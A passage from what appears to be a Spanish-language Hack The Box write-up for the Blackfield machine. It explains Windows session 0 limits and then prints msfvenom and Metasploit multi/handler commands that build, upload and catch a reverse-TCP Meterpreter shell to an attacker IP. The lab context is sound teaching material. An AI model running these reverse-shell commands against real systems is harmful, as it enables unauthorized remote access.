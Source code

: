 Aunque este resultado sugiere que `root.txt` está encriptado, no especifica quién lo encriptó. Además, al intentar ejecutar este comando, se recibe un mensaje de "Acceso denegado", lo cual resulta desconcertante dado que `svc_backup` tiene permisos de administrador del dominio.

En el sistema operativo Windows, los procesos están divididos en diferentes sesiones. A menudo, estos procesos tienen distintos niveles de permisos según la sesión a la que pertenezcan. Al establecer una conexión a través de `winrm`, se crea un proceso `wsmprovhost` que, por defecto, pertenece a la sesión 0:

![imagen 43](Pasted image 20230725233057.png)

Los procesos en la sesión 0 tienen ciertas limitaciones y no pueden interactuar plenamente con ciertos elementos del sistema, como la herramienta `cipher`.

El objetivo ahora es migrar a un proceso que pertenezca a la sesión 1, que no posee estas limitaciones. Para lograr esto, se utilizará **Metasploit** para migrar a la sesión deseada. Primero, se crea un archivo ejecutable malicioso con `msfvenom` que, cuando se ejecuta en la máquina víctima, envía una shell de Meterpreter a la máquina atacante.

El comando para crear este archivo ejecutable malicioso es:

```bash
r1pfr4n@parrot>  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f exe > malicious.exe
```

En este comando, `-p` especifica el payload que se utilizará (una shell inversa de Meterpreter para Windows), `LHOST` y `LPORT` son la dirección IP y el puerto donde la máquina atacante estará escuchando, `-f` define el formato de salida (un archivo .exe en este caso) y `> malicious.exe` es el archivo de salida.

Una vez creado, el archivo malicioso se sube a la máquina víctima con el comando `upload`:

```powershell
C:\Users\Administrator\Desktop upload /home/r1pfr4n/Desktop/HTB/Blackfield/content/malicious.exe
```

Después, en la máquina atacante, se inicia `msfconsole` y se utiliza el exploit `exploit/multi/handler` para escuchar y recibir la shell de Meterpreter. Los comandos que se ejecutan son:


```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.11
exploit -j
```

La siguiente captura de pantalla presenta el resultado exitoso de la configuración del módulo `exploit/multi/handler`.

![imagen 44](Pasted image 20230725220217.png)

Procediendo con el ataque, se ejecuta `malicious.exe` en la máquina objetivo. Como resultado, se obtiene una sesión de Meterpreter en la máquina atacante, a la que se accede mediante el comando `sessions -i NUMERO_SESION`.

![imagen 45](Pasted image 20230725220424.png)
